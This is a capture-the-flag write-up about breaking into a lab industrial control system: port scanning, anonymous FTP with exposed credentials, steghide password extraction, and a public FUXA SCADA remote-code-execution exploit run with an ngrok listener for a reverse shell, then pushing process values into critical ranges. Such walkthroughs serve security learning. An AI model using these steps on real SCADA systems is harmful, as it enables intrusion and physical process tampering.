 ```yaml
---
share_link: https://share.note.sx/lbac04dd#v3qI4xPa8krxyAYdYm3hyUTAS5f49Rgj1lUwkf2p/bw
share_updated: 2025-05-06T18:56:26+05:30
---
```





![[Pasted image 20250503090724.png]]


```
nmap -p 1-65535 192.168.171.225
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-16 19:37 IST  
Nmap scan report for 192.168.171.225  
Host is up (0.011s latency).  
Not shown: 65529 closed tcp ports (reset)  
PORT     STATE SERVICE  
21/tcp   open  ftp  
22/tcp   open  ssh  
1881/tcp open  ibm-mqseries2  
4840/tcp open  opcua-tcp  
5000/tcp open  upnp  
6060/tcp open  x11  
MAC Address: 2C:CF:67:00:23:5C (Raspberry Pi (Trading))  
  
Nmap done: 1 IP address (1 host up) scanned in 7.60 seconds
```


# ftp

```
ftp 192.168.171.225
```

```
Connected to 192.168.171.225.  
220 (vsFTPd 3.0.3)  
Name (192.168.171.225:pradyun): anonymous  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
229 Entering Extended Passive Mode (|||30000|)  
150 Here comes the directory listing.  
drwxrwxr-x    2 ftp      ftp          4096 May 02 11:01 public  
drwxrwxr-x    2 ftp      ftp          4096 May 02 11:03 secret  
226 Directory send OK.
```

- readme.md
```
# Credentials for Valve Control HMI    
ops:ops
```

- vessel.jpg
```
└─$ steghide extract -sf vessel.jpg    
Enter passphrase:    
wrote extracted data to "admin.txt".
```

- admin.txt
```
└─$ cat admin.txt                            
ff@Ca!zqNg3ep3F
```

- admin creds works for fuxa but not hmi
- now suspecting fuxa has cve 

checking for any cves for this i have found https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831/blob/main/CVE-2023-33831.py

- just ran this and got shell access
```
python cve.py --rhost 192.168.171.225 --rport 1881 --lhost 0.tcp.in.ngrok.io --lport 11494
```

- from the source challenge.py we got flag as it is hardcoded `FLAG = "FLAG{5y573m_15_c0mpr0m153d}"` . admins said to retrive flag thought ui lets analyse the source 
  
  - flag is logged and displayed when `activate_emergency` function is called .

```python
    async def activate_emergency(self):
        self.emergency_status = True
        self.emergency_hold_start = datetime.datetime.now()
        timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        self.emergency_log = f"""
        emergency system activated
        Time: {timestamp}
        Pressure: {self.pressure:.2f} bar (CRITICAL RANGE: 65–70 bar)
        Temperature: {self.temperature:.2f} °C (CRITICAL RANGE: 350—400 °C)
        Action: Automatic pressure release initiated
        Security Token: {FLAG}
        """
        logger.warning("EMERGENCY TRIGGERED!")
        logger.info(f"FLAG: {FLAG}")
        await self.update_variables()
```

- lets see where to call this fuunction , 

```python
    async def check_critical_conditions(self):
        if not self.emergency_status:
            if self.pressure > 67.0 or self.temperature > 360.0:
                await self.trigger_system_failure()

            if 65.0 <= self.pressure <= 67.0 and 350.0 <= self.temperature <= 360.0:
                if self.critical_condition_start is None:
                    self.critical_condition_start = datetime.datetime.now()
                elif (datetime.datetime.now() - self.critical_condition_start).total_seconds() >= self.critical_duration:
                    await self.activate_emergency()
            else:
                self.critical_condition_start = None
```

- when pressure is between 65.0 to 67.o and temperature is between 350.0 to 360 `activate_emergency` , lets try 
  
  ![[Pasted image 20250516210318.png]]
- got flag in ui


  # HMI

   
  

- got secrets

![[Pasted image 20250503092134.png]]
- login with ops : ops


![[Pasted image 20250503093737.png]]




# Getting shell as root

![[Pasted image 20250503102924.png]]
- this is an fuxa running , 
  
  >**FUXA** is an open-source **SCADA (Supervisory Control and Data Acquisition)** system. It is used for **monitoring and controlling industrial processes**
  
  checking for any cves for this i have found https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831/blob/main/CVE-2023-33831.py

- just ran this and got shell access

![[Pasted image 20250503103203.png]]

![[Pasted image 20250503103229.png]]

![[Pasted image 20250503103252.png]]

